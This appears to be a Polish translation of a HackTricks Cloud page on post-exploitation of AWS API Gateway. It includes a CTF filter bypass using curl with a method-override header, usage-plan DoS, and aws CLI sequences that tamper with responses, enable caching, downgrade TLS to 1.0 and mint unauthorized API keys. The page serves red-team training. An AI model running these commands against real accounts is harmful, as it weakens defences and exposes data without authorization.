 # AWS - API Gateway Post Exploitation

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## API Gateway

For more information check:

{% content-ref url="../aws-services/aws-api-gateway-enum.md" %}
[aws-api-gateway-enum.md](../aws-services/aws-api-gateway-enum.md)
{% endcontent-ref %}

### Access unexposed APIs

Możesz utworzyć punkt końcowy w [https://us-east-1.console.aws.amazon.com/vpc/home#CreateVpcEndpoint](https://us-east-1.console.aws.amazon.com/vpc/home?region=us-east-1#CreateVpcEndpoint:) z usługą `com.amazonaws.us-east-1.execute-api`, wystawić punkt końcowy w sieci, do której masz dostęp (potencjalnie za pośrednictwem maszyny EC2) i przypisać grupę zabezpieczeń pozwalającą na wszystkie połączenia.\
Następnie, z maszyny EC2 będziesz mógł uzyskać dostęp do punktu końcowego, a tym samym wywołać API bramy, które wcześniej nie było wystawione.

### Bypass Request body passthrough

Ta technika została znaleziona w [**tym opisie CTF**](https://blog-tyage-net.translate.goog/post/2023/2023-09-03-midnightsun/?_x_tr_sl=en&_x_tr_tl=es&_x_tr_hl=en&_x_tr_pto=wapp).

Jak wskazano w [**dokumentacji AWS**](https://docs.aws.amazon.com/AWSCloudFormation/latest/UserGuide/aws-properties-apigateway-method-integration.html) w sekcji `PassthroughBehavior`, domyślnie wartość **`WHEN_NO_MATCH`**, podczas sprawdzania nagłówka **Content-Type** żądania, przekaże żądanie do zaplecza bez transformacji.

W związku z tym, w CTF brama API miała szablon integracji, który **zapobiegał wyciekowi flagi** w odpowiedzi, gdy wysyłano żądanie z `Content-Type: application/json`:

{% code overflow="wrap" %}
```yaml
RequestTemplates:
application/json: '{"TableName":"Movies","IndexName":"MovieName-Index","KeyConditionExpression":"moviename=:moviename","FilterExpression": "not contains(#description, :flagstring)","ExpressionAttributeNames": {"#description": "description"},"ExpressionAttributeValues":{":moviename":{"S":"$util.escapeJavaScript($input.params(''moviename''))"},":flagstring":{"S":"midnight"}}}'
```
{% endcode %}

Jednak wysłanie żądania z **`Content-type: text/json`** uniemożliwiłoby ten filtr.

Na koniec, ponieważ API Gateway pozwalał tylko na `Get` i `Options`, możliwe było wysłanie dowolnego zapytania do dynamoDB bez żadnych ograniczeń, wysyłając żądanie POST z zapytaniem w ciele i używając nagłówka `X-HTTP-Method-Override: GET`:

{% code overflow="wrap" %}
```bash
curl https://vu5bqggmfc.execute-api.eu-north-1.amazonaws.com/prod/movies/hackers -H 'X-HTTP-Method-Override: GET' -H 'Content-Type: text/json'  --data '{"TableName":"Movies","IndexName":"MovieName-Index","KeyConditionExpression":"moviename = :moviename","ExpressionAttributeValues":{":moviename":{"S":"hackers"}}}'
```
{% endcode %}

### Plany użycia DoS

W sekcji **Enumeracja** możesz zobaczyć, jak **uzyskać plan użycia** kluczy. Jeśli masz klucz i jest on **ograniczony** do X użyć **na miesiąc**, możesz **po prostu go użyć i spowodować DoS**.

**Klucz API** musi być **dołączony** w **nagłówku HTTP** o nazwie **`x-api-key`**.

### `apigateway:UpdateGatewayResponse`, `apigateway:CreateDeployment`

Napastnik z uprawnieniami `apigateway:UpdateGatewayResponse` i `apigateway:CreateDeployment` może **zmodyfikować istniejącą odpowiedź bramy, aby dodać niestandardowe nagłówki lub szablony odpowiedzi, które ujawniają wrażliwe informacje lub wykonują złośliwe skrypty**.

{% code overflow="wrap" %}
```bash
API_ID="your-api-id"
RESPONSE_TYPE="DEFAULT_4XX"

# Update the Gateway Response
aws apigateway update-gateway-response --rest-api-id $API_ID --response-type $RESPONSE_TYPE --patch-operations op=replace,path=/responseTemplates/application~1json,value="{\"message\":\"$context.error.message\", \"malicious_header\":\"malicious_value\"}"

# Create a deployment for the updated API Gateway REST API
aws apigateway create-deployment --rest-api-id $API_ID --stage-name Prod
```
{% endcode %}

**Potencjalny wpływ**: Wyciek wrażliwych informacji, wykonywanie złośliwych skryptów lub nieautoryzowany dostęp do zasobów API.

{% hint style="info" %}
Wymaga testowania
{% endhint %}

### `apigateway:UpdateStage`, `apigateway:CreateDeployment`

Atakujący z uprawnieniami `apigateway:UpdateStage` i `apigateway:CreateDeployment` może **zmodyfikować istniejącą fazę API Gateway, aby przekierować ruch do innej fazy lub zmienić ustawienia pamięci podręcznej, aby uzyskać nieautoryzowany dostęp do danych w pamięci podręcznej**.

{% code overflow="wrap" %}
```bash
API_ID="your-api-id"
STAGE_NAME="Prod"

# Update the API Gateway stage
aws apigateway update-stage --rest-api-id $API_ID --stage-name $STAGE_NAME --patch-operations op=replace,path=/cacheClusterEnabled,value=true,op=replace,path=/cacheClusterSize,value="0.5"

# Create a deployment for the updated API Gateway REST API
aws apigateway create-deployment --rest-api-id $API_ID --stage-name Prod
```
{% endcode %}

**Potencjalny wpływ**: Nieautoryzowany dostęp do pamiętanych danych, zakłócanie lub przechwytywanie ruchu API.

{% hint style="info" %}
Wymaga testowania
{% endhint %}

### `apigateway:PutMethodResponse`, `apigateway:CreateDeployment`

Napastnik z uprawnieniami `apigateway:PutMethodResponse` i `apigateway:CreateDeployment` może **zmodyfikować odpowiedź metody istniejącej metody API Gateway REST API, aby dodać niestandardowe nagłówki lub szablony odpowiedzi, które ujawniają wrażliwe informacje lub wykonują złośliwe skrypty**.
```bash
API_ID="your-api-id"
RESOURCE_ID="your-resource-id"
HTTP_METHOD="GET"
STATUS_CODE="200"

# Update the method response
aws apigateway put-method-response --rest-api-id $API_ID --resource-id $RESOURCE_ID --http-method $HTTP_METHOD --status-code $STATUS_CODE --response-parameters "method.response.header.malicious_header=true"

# Create a deployment for the updated API Gateway REST API
aws apigateway create-deployment --rest-api-id $API_ID --stage-name Prod
```
**Potencjalny wpływ**: Wyciek wrażliwych informacji, wykonywanie złośliwych skryptów lub nieautoryzowany dostęp do zasobów API.

{% hint style="info" %}
Potrzebne testowanie
{% endhint %}

### `apigateway:UpdateRestApi`, `apigateway:CreateDeployment`

Napastnik z uprawnieniami `apigateway:UpdateRestApi` i `apigateway:CreateDeployment` może **zmodyfikować ustawienia API Gateway REST API, aby wyłączyć logowanie lub zmienić minimalną wersję TLS, co potencjalnie osłabia bezpieczeństwo API**.
```bash
API_ID="your-api-id"

# Update the REST API settings
aws apigateway update-rest-api --rest-api-id $API_ID --patch-operations op=replace,path=/minimumTlsVersion,value='TLS_1.0',op=replace,path=/apiKeySource,value='AUTHORIZER'

# Create a deployment for the updated API Gateway REST API
aws apigateway create-deployment --rest-api-id $API_ID --stage-name Prod
```
**Potencjalny wpływ**: Osłabienie bezpieczeństwa API, co może prowadzić do nieautoryzowanego dostępu lub ujawnienia wrażliwych informacji.

{% hint style="info" %}
Wymaga testowania
{% endhint %}

### `apigateway:CreateApiKey`, `apigateway:UpdateApiKey`, `apigateway:CreateUsagePlan`, `apigateway:CreateUsagePlanKey`

Atakujący z uprawnieniami `apigateway:CreateApiKey`, `apigateway:UpdateApiKey`, `apigateway:CreateUsagePlan` i `apigateway:CreateUsagePlanKey` może **tworzyć nowe klucze API, przypisywać je do planów użytkowania, a następnie używać tych kluczy do nieautoryzowanego dostępu do API**.
```bash
# Create a new API key
API_KEY=$(aws apigateway create-api-key --enabled --output text --query 'id')

# Create a new usage plan
USAGE_PLAN=$(aws apigateway create-usage-plan --name "MaliciousUsagePlan" --output text --query 'id')

# Associate the API key with the usage plan
aws apigateway create-usage-plan-key --usage-plan-id $USAGE_PLAN --key-id $API_KEY --key-type API_KEY
```
**Potencjalny wpływ**: Nieautoryzowany dostęp do zasobów API, omijanie zabezpieczeń.

{% hint style="info" %}
Wymaga testowania
{% endhint %}

{% hint style="success" %}
Ucz się i ćwicz Hacking AWS:<img src="../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">\
Ucz się i ćwicz Hacking GCP: <img src="../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Wsparcie dla HackTricks</summary>

* Sprawdź [**plany subskrypcyjne**](https://github.com/sponsors/carlospolop)!
* **Dołącz do** 💬 [**grupy Discord**](https://discord.gg/hRep4RUj7f) lub [**grupy telegramowej**](https://t.me/peass) lub **śledź** nas na **Twitterze** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Dziel się trikami hackingowymi, przesyłając PR-y do** [**HackTricks**](https://github.com/carlospolop/hacktricks) i [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) repozytoriów na githubie.

</details>
{% endhint %}
